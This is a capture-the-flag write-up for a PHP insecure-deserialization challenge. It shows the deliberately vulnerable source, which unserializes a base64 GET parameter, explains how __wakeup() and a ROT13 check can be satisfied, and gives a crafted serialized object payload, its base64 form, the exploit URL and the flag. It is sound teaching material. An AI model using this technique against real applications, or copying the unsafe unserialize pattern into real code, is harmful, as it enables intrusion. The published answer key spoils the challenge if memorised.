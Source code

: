 # Serialization Saga

> This Capture The Flag (CTF) challenge is designed to assess your ability to identify and exploit fundamental insecure deserialization vulnerabilities. Can you successfully execute the necessary functions and retrieve the flags? Lesssgoo!


## Solution

- This challenge is vulnerable to insecure deserialization.
- **Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes, i.e. **Objects ⇒ Bytes**
- **Deserialization** is the process of restoring this byte stream to a fully functional replica of the original object, i.e. **Bytes ⇒ Objects.**

```php
<?php

error_reporting(0);

class CloudSEK  {

    private $func_no;
    private $func_name;

    function __construct($no , $name)  {
        if ($no == NULL && $name == NULL)   {
            $this->func_no = $no;
            $this->func_name = $name;
        }
    }

    function __wakeup()  {
        $func_map = array(
            1 => "XVigil",
            2 => "BeVigil",
            3 => "GetMeDemFlagz",
        );
        
        $func_no = $this->func_no;
        $func_name = str_rot13($this->func_name);

        if ($func_map[$func_no] === $func_name)  {
            $this->$func_name();
        }
        else    {
            echo "<h3>Invalid Object Data</h3>";
        }
    }

    function XVigil()   {
        echo "<h3>XVigil is a cybersecurity platform designed to help organizations monitor and mitigate potential security threats and vulnerabilities across the digital landscape.</h3>";
    }

    function BeVigil()  {
        echo "<h3>World's first Security Search Engine mobiles that makes sure the applications installed in your phone are safe.</h3>";
    }

    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>
```

- We are provided with the above source code on the webpage.
- Going through the code we can deduce that it takes a `GET` parameter named `sess` which is base64 encoded string. This base64 string gets decode and gets deserialized.
- In PHP, the `unserialize()` method invokes the magic method `__wakeup()` for deserialization.
- [More on magic methods](https://portswigger.net/web-security/deserialization/exploiting#magic-methods)
- In the `__wakeup()` magic method, we see that an array `$func_map` has been defined with 3 items.
- `$func_no`  stores the number which will be used to access the array .
- `$func_name` stores the function name but after performing a simple ROT13 shift.
- The below block of code performs a **STRICT** comparison(i.e. **BOTH** value and type should be same) between the func_name from the array(accessed using `$func_no`) and the ROT13 shifted `$func_name`.
    
    ```php
    if ($func_map[$func_no] === $func_name)  {
    			$this->$func_name();
    }
    ```
    
- We have 3 functions defined:
    - `XVigil()` : outputs text
    - `BeVigil()` : outputs text
    - `GetMeDemFlagz()` : outputs the content of `flag.txt` in the `/tmp` directory.
- We should craft a serialized payload keeping these things in mind:
    - `func_no` should get value `3` because the mapping in the `func_map` array to `GetMeDemFlagz` is at the 3rd index
    - ROT13 of `GetMeDemFlagz` : `TrgZrQrzSyntm`
    - Base64 encoded and passed as a GET parameter `sess` in the url.
        - `{URL}/?sess=<base64 encoded string>`
- With the help of [this page](https://portswigger.net/web-security/deserialization/exploiting#how-to-identify-insecure-deserialization), we can craft a payload.

<br>

#### Final Payload:

```php
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

- `O:8:"CloudSEK"` : An object with the 8-character class name `"CloudSEK"`
- `2` - the object has 2 attributes
- `s:7:"func_no"` : The key of the first attribute is the 7-character string `"func_no"`
- `i:3` : Value of first attribute is the 3rd index in func_map in the `__wakeup()` function
- `s:9:"func_name"` : The key of the second attribute is the 9-character string `"func_name"`
- `s:13:"TrgZrQrzSyntm"` : Value of second attribute is a 13 character string `TrgZrQrzSyntm` (from rot13 of `GetMeDemFlagz`)

- Base64 encoding the above payload:
    `Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=`
    
- Passing above base64 string as a value to `sess` parameter and appending to the URL, we get the flag

```html
/?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```
<br>

![Untitled](Untitled.png)

### **Flag: `CSEK{PhP_0Bj3CT_D3$3R1L1Z@T10N}`**